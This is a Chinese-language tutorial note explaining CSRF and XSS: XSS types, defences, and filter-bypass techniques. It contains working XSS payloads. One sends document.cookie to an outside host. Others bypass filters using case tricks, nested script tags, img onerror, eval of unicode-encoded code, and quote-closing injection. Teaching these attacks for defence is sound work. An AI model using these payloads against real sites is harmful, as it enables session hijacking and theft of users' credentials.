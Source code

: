 # XSRF(或叫做CSRF)和XSS
CSRF(Cross-site request forgery)跨站请求伪造：通过伪装来自受信任用户的请求来利用受信任的网站。
XSS(Cross Site Scripting)跨站脚本攻击
CSRF重点在请求,XSS重点在脚本

CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。
XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为


* ### XSS
    + 原理
        XSS本质是Html注入，和SQL注入差不多。
        XSS跨站攻击就是在网页里面埋入恶源代码，劫持用户的信息投递到预设的网站上去的一种黑客攻击手段。
        举个栗子：把网页比作一瓶液体，普通用户看来透明的应该可以喝，就直接喝了（访问），黑客XSS攻击者就相当于在水里投一种无色无味的毒药，你喝掉就被控制了，主动把身上的钱啊（cookie） 银行卡密码（存储的账号密码）啊都交了出来，甚至你自己还不知道。
        ```
        # 这里是一个表单输入框，正常应该输入一个地址，但是攻击者可能输入一段html代码，如：
        #   "/> <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--
        <form>
        <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />
        <input type="submit" value="Submit" />  
        </form>

        # 于是，代码变为如下，目的是获取本机存储的该域名的cookie发送到另一个地址
        <form>
        <input style="width:300px;" type="text" name="address1" value=""/>
        <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--" />
        <input type="submit" value="Submit" />  
        </form>
        ```

    + 类型
        + 反射型XSS，又称非持久型XSS：将恶意的脚本附加到URL地址的参数中，一般是将构造好的URL发给受害者，是受害者点击触发，而且只执行一次，非持久化。
        + 储存型XSS，也就是持久型XSS：攻击者事先讲恶意JavaScript代码上传或存储到漏洞服务器中，只要受害者浏览包含此恶意的代码的页面就会执行恶意代码。

    + 防范手段
        + 过滤：对诸如<script>、<img>、<a>等标签进行过滤。
        + 编码：像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
        + 限制：xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

    + 绕过
        + 大小写绕过
        这个绕过方式的出现是因为网站仅仅只过滤了<script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。
        
        + 利用过滤后返回语句再次构成攻击语句来绕过
        网站可能过滤了 script标签，我们可以在script关键字中间嵌套script标签，中间的script被过滤删除之后，剩下的内容正好又构造了一个script标签。
        例如：<sCri<script>pt>alert("hey!")</scRi</script>pt>
        
        + 利用其它标签
            + <img>：我们指定的图片地址不存在，就一定会发生错误，会执行onerror。
            http://192.168.1.102/xss/example4.php?name=<img src='w.123' onerror='alert("hey!")'>
            + <a onmousemove=’do something here’> ：当用户鼠标移动时即可运行代码
            + <div onmouseover=‘do something here’> ： 当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）
        
        + 编码脚本代码绕过关键字过滤
        服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。
        不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行。
        例如alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)。
        http://192.168.1.102/xss/example5.php?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>

        + 主动闭合标签实现注入代码
        填入的参数放到了script脚本的变量里面，可以先加双引号将变量左边的双引号关闭，然后执行我们的脚本，然后再加双引号闭合原变量右边的双引号。
        ```
        # 访问 http://localhost:81/xss.php?name=hacker
        <script>
            var $a= "hacker";
        </script>

        # 此时不传hacker，改为 http://localhost:81/xss.php?name=";alert("I amcoming again~");"
        <script>
            var $a= "";alert("I amcoming again~");"";
        </script>
        ```